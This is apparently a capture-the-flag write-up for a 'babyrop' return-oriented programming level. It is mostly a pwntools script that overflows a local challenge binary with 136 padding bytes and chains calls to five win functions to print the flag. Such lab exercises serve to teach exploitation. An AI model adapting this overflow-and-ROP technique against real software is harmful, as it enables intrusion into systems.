 # Return Oriented Programming 3.1

Similar to level 3.0, just with a different offset (136).

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyrop_level3.1")

io = process()

print("===== STARTING EXPLOIT =====")

offset = 136

rop = ROP(elf)
rop.raw(b'A' * offset)
rop.win_stage_1(0x1)
rop.win_stage_2(0x2)
rop.win_stage_3(0x3)
rop.win_stage_4(0x4)
rop.win_stage_5(0x5)

io.sendline(rop.chain())

io.recvuntil(b'Leaving!\n')

print(f'Flag: {io.recvline(False)}')
```
